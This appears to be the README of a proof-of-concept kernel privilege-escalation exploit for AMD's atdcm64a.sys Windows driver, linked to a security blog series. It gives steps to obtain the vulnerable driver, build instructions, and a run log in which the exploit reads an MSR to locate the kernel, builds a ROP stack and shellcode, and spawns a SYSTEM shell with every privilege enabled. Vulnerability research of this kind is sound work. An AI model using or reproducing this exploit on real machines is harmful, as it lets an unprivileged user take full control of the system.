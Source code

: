 # ATDCM64a.sys LPE POC

Exploit for atdcm64a.sys vulnerable driver. The vulnerable driver can be downloaded from this link https://drivers.amd.com/drivers/beta/win10-64bit-radeon-software-adrenalin-edition-18.12.1.1-dec5.exe.
If not possible follow this procedure:
1. Navigate to this [link](https://www.amd.com/en/support/downloads/previous-drivers.html/graphics/radeon-600-500-400/radeon-rx-500-series/radeon-rx-580.html)
2. Expand the “Windows 10 – 64-bit Edition” tab
3. Download the package Adrenalin Edition 18.12.1.1 Optional (Release date: 2018-12-05)
   
All info are in the blog series [here](https://security.humanativaspa.it/tag/atdcm64a/).

## Compile

Compile with Visual Studio using `Release` `x64`. Exploit will be located at `.\x64\Release\DrvExpTemplate.exe`. Ignore error of type `Exit from command copy <path> x:\temp\`. This command was executed in order to deploy automatically to the compiled exploit on the target machine, therefore you can ignore the error. 

## Run

```
PS > whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
PS C:\Users\IEUser\Desktop> .\DrvExpTemplate.exe
[+] Opened handle to device: 0x00000000000000D0
[+] User buffer allocated: 0x0000025BEC060000
[*] sent IOCTL_READMSR
[+] readMSR success.
[+] IA32_LSTAR = 0xFFFFF800264F61C0
[+] g_ntbase = 0xFFFFF80025A00000
[+] object = 0x0000001AFEFF0000
[+] second object = 0x0000001AFEFFFFD0
[+] ptr = 0x0000001AFF000000
[+] object2 = 0x0000025BEC080000
[+] driverObject = 0x0000025BEC090000
[+] ptr->AttachedDevice = 0x0000025BEC080030
[*] fake_stack = 0x00000000FEFF0000
[+] VirtualLock returned successfully
[*] ropStack = 0x00000000FF000000
[*] sc = 0x00001A1A1A003500
[*] pml4shellcode_index 0x0000000000000034
[+] User buffer allocated: 0x0000025BEC070000
[*] sent IOCTL_ARBITRARYCALLDRIVER
[+] arbitraryCallDriver returned successfully.
[*] spawning system shell...
Microsoft Windows [Version 10.0.22631.2861]
(c) Microsoft Corporation. All rights reserved.

>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeCreateTokenPrivilege                    Create a token object                                              Enabled
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Enabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeAuditPrivilege                          Generate security audits                                           Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeTrustedCredManAccessPrivilege           Access Credential Manager as a trusted caller                      Enabled
SeRelabelPrivilege                        Modify an object label                                             Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled

>
```
## References

* https://ommadawn46.medium.com/windows-kernel-exploitation-hevd-on-windows-10-22h2-b407c6f5b8f7

